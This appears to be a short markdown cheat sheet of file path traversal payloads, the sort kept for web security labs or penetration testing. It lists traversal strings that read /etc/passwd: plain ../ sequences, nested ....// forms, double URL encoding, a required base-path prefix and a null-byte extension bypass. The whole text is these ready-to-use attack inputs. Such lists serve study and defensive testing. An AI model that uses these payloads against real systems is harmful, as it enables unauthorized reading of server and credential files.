 ## File path traversal, Directory traversal

### Step up multiple levels

On Unix/linux `../`

On Windows both `../` and ..\`

### Absolute path
`/etc/passwd`

### Nested traversal sequences
`....//` or `....\/`

### URL decode or double decode
`..%252f..%252f..%252fetc/passwd`

### Incude required base path
`/var/www/images/../../../etc/passwd`

### Null byte to terminate stirng
`../../../etc/passwd%00.png`



